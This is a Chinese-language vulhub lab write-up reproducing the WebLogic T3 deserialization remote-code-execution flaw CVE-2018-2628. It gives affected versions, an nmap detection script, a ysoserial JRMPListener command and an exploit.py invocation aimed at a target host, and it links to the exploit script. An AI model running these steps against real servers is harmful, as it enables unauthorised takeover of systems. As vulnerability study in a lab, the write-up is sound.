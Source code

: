 # Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

###### by ADummy

### 0x00利用路线

​			启动一个JRMP Server--->执行exp文件--->命令执行

### 0x01漏洞介绍			

​			在 WebLogic 里，攻击者利用其他rmi绕过weblogic黑名单限制，然后在将加载的内容利用readObject解析，从而造成反序列化远程代码执行该漏洞，该漏洞主要由于T3服务触发，所有开放weblogic控制台7001端口，默认会开启T3服务，攻击者发送构造好的T3协议数据，就可以获取目标服务器的权限。

##### 影响版本

```
 Weblogic 10.3.6.0
 Weblogic 12.1.3.0
 Weblogic 12.2.1.2
 Weblogic 12.2.1.3
```

### 0x02漏洞复现

快速检测`利用nmap --script=weblogic-t3-infi.nse`

首先下载ysoserial，并启动一个JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]`即为我想执行的命令，而`[listen port]`是JRMP Server监听的端口。

然后，使用[exploit.py](https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Weblogic_WLS_Core_Components_CVE_2018_2628.py)脚本，向目标Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]`和`[victim port]`是目标weblogic的IP和端口，`[path to ysoserial]`是本地ysoserial的路径，`[JRMPListener ip]`和`[JRMPListener port]`第一步中启动JRMP Server的IP地址和端口。`[JRMPClient]`是执行JRMPClient的类，可选的值是`JRMPClient`或`JRMPClient2`。

exploit.py执行完成后，执行`docker-compose exec weblogic bash`进入容器中，可见/tmp/success已成功创建。

![Weblogic_WLS_Core_Components_反序列化命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_WLS_Core_Components_反序列化命令执行漏洞_1.png)



![Weblogic_XMLDecoder_反序列化漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Weblogic_WLS_Core_Components_反序列化命令执行漏洞_2.jpg)



### 0x03参考资料

https://blog.csdn.net/csacs/article/details/87122472

poc：https://github.com/ADummmy/vulhub_Writeup/blob/main/code/Weblogic_WLS_Core_Components_CVE_2018_2628.py
